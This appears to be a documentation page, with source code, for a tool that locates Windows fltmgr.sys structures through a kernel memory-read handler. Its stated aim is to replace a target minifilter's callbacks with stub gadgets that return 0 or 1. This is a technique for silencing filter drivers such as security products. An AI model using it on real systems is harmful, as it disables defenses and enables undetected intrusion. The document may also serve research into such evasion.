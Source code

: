 
---

#### \_HANDY\_FUNCTIONS

The `_HANDY_FUNCTIONS` structure contains two member variables where each member is a `PVOID/FARPROC` pointing to gadgets that return 0 and 1 respectively. These will be the functions replacing the target filter's callback functions.

--- 

#### FltManager
The default constructor for the class, receiving a pointer to a `MemHandler` class.

**Parameters**

\[in\] objMemHandler
A pointer to a `MemHandler` class.

```C++
// This function resolves the base addres of fltmgr.sys and it's FltGlobals object
// once resolved, a virtual read is performed to read the count of frames
// and the virtual address of the beginning of the frame list
FltManager::FltManager(MemHandler* objMemHandlerArg)
{

	this->objMemHandler = objMemHandlerArg;
	this->lpFltMgrBase = ResolveDriverBase(L"fltmgr.sys");
	this->lpFltGlobals = ResolveFltmgrGlobals(this->lpFltMgrBase);
	bool b = this->objMemHandler->VirtualRead(
		((SIZE_T)this->lpFltGlobals + FLTGLB_OFFSET_FLT_RESOURCE_LISTHEAD + FLT_RESOURCE_LISTHEAD_OFFSET_FRAME_COUNT),
		&this->ulNumFrames,
		sizeof(ULONG)
	);
	if (!b) {
		puts("Could not read frame count");
		return;
	}

	b = this->objMemHandler->VirtualRead(
		((SIZE_T)this->lpFltGlobals + FLTGLB_OFFSET_FLT_RESOURCE_LISTHEAD + FLT_RESOURCE_LISTHEAD_OFFSET_FRAME_LIST),
		&this->lpFltFrameList,
		sizeof(PVOID)
	);
	if (!b) {
		puts("Could not read frame list");
		return;
	}
}
```

---
